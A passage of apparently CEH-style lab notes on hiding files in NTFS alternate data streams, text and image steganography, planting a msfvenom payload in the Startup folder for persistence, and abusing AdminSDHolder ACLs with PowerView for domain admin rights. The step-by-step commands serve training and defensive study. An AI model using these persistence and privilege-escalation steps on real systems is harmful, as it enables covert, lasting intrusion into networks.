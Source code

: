 #### 3.5 Hide files using NTFS ADS Streams

**Steps**:
1. Copy `calc.exe` to test folder.
2. Create text file:
 - `notepad readme.txt`
3. Append calc to text file:
  - `type calc.exe >readme.txt:calc.exe`
4. Create link to hidden file:
  - `mklink backdoor.exe readme.txt:calc.ex`
5. List hidden ADS streams:
  - `dir /r`

[MFT Forensics - NTFS ADS](https://cavementech.com/2022/05/mft-forensics.html#Alternate_Data_Streams_NTFS)

#### 3.6 Hide data using white space steganography
Conceal messages in ASCII text by adding white spaces at the end of lines. Uses **Snow** tool.

**Example**:
- SNOW.EXE -C -m "Hassan is my name" -p "magic" test.txt test2.txt
  - `-m` → hidden message  
  - `-p` → password  
  - `test.txt` → source file  
  - `test2.txt` → output file  
Extract hidden message:
- `SNOW.EXE -C -p "magic" test2.txt`


#### 3.7 Image Steganography using OpenStego and Stegonline

**OpenStego**
Select message file, cover file, and click **hide** to embed data. Extract similarly.

**Stegonline**
Upload file, configure settings, and embed/extract hidden data.

#### 3.8 Maintain persistence abusing boot or Logon autostart

- After gaining admin meterpreter, change directory:
  - `cd "C:\ProgramData\Start Menu\Programs\StartUp`
- Check the working directory with `pwd`
- Upload msfvenom payload here for persistence

**Other tools**:
- [Steghide](https://www.kali.org/tools/steghide/)
- [QuickCrypto](http://quickcrypto.com/free-steganography-software.html)

#### 3.9 Maintain Domain Persistence exploiting Active Directory Objects
AdminSDHolder container protects AD accounts/groups. Attackers can add user ACL to gain domain admin rights.

**Steps**:
1. Upload powertools:
  - `upload -r /home/attacker/Power-Tools-Master C:\users\Administrator\Downloads`
2. Start PowerShell:
  - `shell`
  - `powershell`
3. Import module and modify ACL:
  - `import-Module ./powerview.psm1`
  - `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=system' -principalSamAccountName Martin -Verbose -Rights all`
4. Verify:
  - `Get-ObjectAcl -SamAccountName "Martin" -ResolveGUIDs`
